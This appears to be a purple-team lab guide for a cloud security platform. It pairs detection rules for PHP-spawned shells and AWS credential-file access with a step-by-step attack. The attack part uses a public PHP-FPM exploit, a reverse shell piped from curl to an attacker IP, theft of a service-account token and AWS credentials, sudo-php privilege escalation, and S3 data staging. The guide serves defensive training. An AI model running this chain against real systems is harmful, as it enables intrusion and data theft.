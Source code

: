 ## Chapter 1: Application Architecture

1. Evaluate the architecture of the applications and different weaknesses that we may want to monitor:

- [Link to graph query](https://app.wiz.io/explorer/graph#%7E%28queryTitle%7E%27Issue*20Evidence%7Equery%7E%28relationships%7E%28%7E%28type%7E%28%7E%28type%7E%27OWNS%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28type%7E%27ACTING_AS%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28reverse%7Etrue%7Etype%7E%27ASSIGNED_TO%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28type%7E%27PERMITS%29%29%7Ewith%7E%28select%7Etrue%7Etype%7E%28%7E%27ACCESS_ROLE%29%29%29%7E%28type%7E%28%7E%28type%7E%27APPLIES_TO%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28reverse%7Etrue%7Etype%7E%27ENTITLES%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28type%7E%27ALLOWS%29%29%7Ewith%7E%28select%7Etrue%7Etype%7E%28%7E%27ACCESS_ROLE_PERMISSION%29%29%29%7E%28type%7E%28%7E%28type%7E%27ALLOWS_ACCESS_TO%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28type%7E%27HAS_DATA_FINDING%29%29%7Ewith%7E%28select%7Etrue%7Etype%7E%28%7E%27DATA_FINDING%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27BUCKET%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27IAM_BINDING%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27SERVICE_ACCOUNT%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27ACCESS_ROLE_BINDING%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27SERVICE_ACCOUNT%29%29%29%7E%28type%7E%28%7E%28type%7E%27CONTAINS%29%29%7Ewith%7E%28type%7E%28%7E%27CONTAINER%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27INSTANCE_OF%29%29%7Ewith%7E%28type%7E%28%7E%27CONTAINER_IMAGE%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27ALERTED_ON%7Ereverse%7Etrue%29%29%7Ewith%7E%28select%7Etrue%7EblockName%7E%27Has*20vulnerabilities%7Etype%7E%28%7E%27SECURITY_TOOL_FINDING%29%7Ewhere%7E%28severity%7E%28EQUALS%7E%28%7E%27VulnerabilitySeverityCritical%7E%27VulnerabilitySeverityHigh%7E%27VulnerabilitySeverityMedium%7E%27VulnerabilitySeverityLow%29%29%29%7EblockExpanded%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27CAUSES%7Ereverse%7Etrue%29%29%7Ewith%7E%28type%7E%28%7E%27VULNERABILITY%29%29%29%29%29%29%7E%28type%7E%28%7E%28type%7E%27CONTAINS%29%29%7Ewith%7E%28type%7E%28%7E%27SECRET_INSTANCE%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27INSTANCE_OF%29%29%7Ewith%7E%28type%7E%28%7E%27SECRET_DATA%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27PERMITS%29%29%7Ewith%7E%28type%7E%28%7E%27USER_ACCOUNT%29%7Eselect%7Etrue%29%29%29%29%29%29%29%29%29%29%29%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27POD%29%29%29%7E%28type%7E%28%7E%28reverse%7Etrue%7Etype%7E%27CONTAINS%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28type%7E%27CONTAINS%29%29%7Ewith%7E%28select%7Etrue%7Etype%7E%28%7E%27KUBERNETES_CLUSTER%29%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27CONTAINS%29%29%7Ewith%7E%28type%7E%28%7E%27DEPLOYMENT%29%7Eselect%7Etrue%7Ewhere%7E%28name%7E%28CONTAINS%7E%28%7E%27nginx%29%29%29%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27OWNS%29%29%7Ewith%7E%28type%7E%28%7E%27POD%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27CONTAINS%29%29%7Ewith%7E%28type%7E%28%7E%27CONTAINER%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27INSTANCE_OF%29%29%7Ewith%7E%28type%7E%28%7E%27CONTAINER_IMAGE%29%7Eselect%7Etrue%7Erelationships%7E%28%7E%28type%7E%28%7E%28type%7E%27ALERTED_ON%7Ereverse%7Etrue%29%29%7Ewith%7E%28type%7E%28%7E%27SECURITY_TOOL_FINDING%29%7Eselect%7Etrue%29%29%29%29%29%29%29%29%29%29%29%29%29%29%29%29%29%7E%28type%7E%28%7E%28type%7E%27CONTAINS%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28type%7E%27INSTANCE_OF%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28reverse%7Etrue%7Etype%7E%27ALERTED_ON%29%29%7Ewith%7E%28relationships%7E%28%7E%28type%7E%28%7E%28reverse%7Etrue%7Etype%7E%27CAUSES%29%29%7Ewith%7E%28type%7E%28%7E%27VULNERABILITY%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27SECURITY_TOOL_FINDING%29%7Ewhere%7E%28severity%7E%28EQUALS%7E%28%7E%27VulnerabilitySeverityCritical%7E%27VulnerabilitySeverityHigh%29%29%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27CONTAINER_IMAGE%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27CONTAINER%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27SUBSCRIPTION%29%29%29%29%7Eselect%7Etrue%7Etype%7E%28%7E%27DEPLOYMENT%29%7Ewhere%7E%28name%7E%28CONTAINS%7E%28%7E%27php%29%29%29%29%7Elayers%7E%28%7E%27issues%7E%27public_exposure%7E%27lateral_movement%29%7Eview%7E%27graph%29)

## Chapter 2: Detection Engineering

1. Setup Threat Detection Rule to monitor for a shell spawned from the potentially exploited PHP web app:

- Go to `Policies > Threat Detection Rules > Create Rule`
- **Rule Type:** Workload Runtime Rule
- **Name:** Shell executed from php-fpm or php container
- **Description:**
  - The purpose of this threat detection rule is to detect a shell spawned by the vulnerable php web app
- **Severity:** High
- **Event Type:** Process Execution
  - **Process Names:** `dash` `bash` `sh`
- **Actor > + Add Actor**
  - **Process Names:** `php` `php-fpm`
  - **Container Names:** `php`
- **Create Rule**

3. Setup Runtime FIM Rule to monitor for any access of the high privilege AWS credentials that are stored on the container image:

- Go to `Policies > Threat Detection Rules > Create Rule`
- **Rule Type:** FIM Rule
- **Name:** Highly privileged AWS credentials file accessed
- **Description:**
- **Severity:** Medium
- **Detection Method:** Runtime FIM
  - Note: Agentless FIM can detect Creation, Deletion, and Modification between agentless scans. However, it cannot detect Open and Permissions Changes, as well as realtime Creation, Deletion, and Modification. Therefore, we are using Runtime FIM only in this case.
- **Monitoring Conditions:**
  - **Directory Paths:** `/root/.aws/`
  - **Include:** `credentials`
  - **Attributes:** Open
  - **Coverage:** Both host and container file systems
- **Create Rule**

## Chapter 3: Purple Team Exercise

1. Navigate to the web app in the browser and leave the session open:

- [http://${APP_URL}/index.php](http://${APP_URL}/index.php)

2. Login to attacker box, download public exploit and run it:

```sh
chmod 400 attacker.pem
ssh -i attacker.pem ec2-user@${ATTACKER_IPV4}
go install github.com/neex/phuip-fpizdam@latest
cd ~/go/bin
./phuip-fpizdam http://${APP_URL}/index.php
```

3. Test Shell in Browser:

- Add `?` to the end of the URL in the browser
- Add `a=id`
- Press Enter / Return

  ***

  **NOTE**

  You may have to press enter / return twice in order for the shell to execute.
  The full URL should look like this: http://${APP_URL}/index.php?a=id

  ***

4. Start netcat on Attacker Box:

```sh
nc -lv 1337
```

5. Test Reverse Shell:

- After the `?`, replace `a=id` with:
  - `curl -k https://reverse-shell.sh/${ATTACKER_IPV4}:1337 | sh`

6. In Reverse Shell, run the following commands:\*\*

- **User on container host:**

  - `whoami`

  - **Confirm which host you are on:**

  - `uname -a`

- **Validate IRSA (IAM Role for Service Accounts) Access:**

  Identify the EKS service account token

  ```sh
  cat /var/run/secrets/eks.amazonaws.com/serviceaccount/token
  ```

  Break up the JSON Web Token (JWT) into it's parts

  ```sh
  JWT=$(cat /var/run/secrets/eks.amazonaws.com/serviceaccount/token); IFS='.' read -r header payload signature <<< "$JWT"; echo -e "\nHeader:"; echo "$header" | awk '{print $0 "=="}' | base64 -d | jq .; echo -e "\n"; echo "Payload:"; echo "$payload" | awk '{print $0 "=="}' | base64 -d | jq .; echo -e "\n"; echo "Signature (base64):"; echo "$signature"
  ```

  Assume Role with the IRSA

  ```sh
  RESPONSE=$(aws sts assume-role-with-web-identity --role-arn "${IRSA_ROLE}" --role-session-name "attacker-session" --web-identity-token file:///var/run/secrets/eks.amazonaws.com/serviceaccount/token --output json)
  ```

  Validate the active session

  ```sh
  echo $RESPONSE | jq .
  ```

  Set the environment variables

  ```sh
  export AWS_ACCESS_KEY_ID=$(echo $RESPONSE | jq -r '.Credentials.AccessKeyId');
  export AWS_SECRET_ACCESS_KEY=$(echo $RESPONSE | jq -r '.Credentials.SecretAccessKey');
  export AWS_SESSION_TOKEN=$(echo $RESPONSE | jq -r '.Credentials.SessionToken')
  ```

  Confirm access through session

  ```sh
  aws sts get-caller-identity
  ```

7. List buckets:

- `aws s3 ls`
- `aws s3 ls ${WEB_BUCKET}`
- `aws s3 cp s3://${WEB_BUCKET} /tmp --recursive`

8. Validate the contexts of the file

- `cat /tmp/image.png`

9. Access other credentials file:

   - `cat /root/.aws/credentials/`

10. Test LinPEAS over reverse shell:

- `curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh`
- **Can I write anywhere?:**
  - `tmp`
- **What if I run it directly from memory?:**
  - `curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh`

11. Use php to escalate privileges:

- GTFObin
  ```sh
  CMD="/bin/bash"
  sudo php -r "system('\$\CMD');"
  ```

12. Validate that you were able to escalate privileges to root:

- `whoami`

13. Access credentials file:

- `cat /root/.aws/credentials`

14. Use credentials to access AWS

- `aws sts get-caller-identity`

15. List Buckets and Objects

    - `aws s3 ls`
    - `aws s3 ls ${CUSTOMER_BUCKET}`

16. Stage Data

    - `aws s3 cp s3://${CUSTOMER_BUCKET} ./ --recursive`

17. Exfiltrate Data
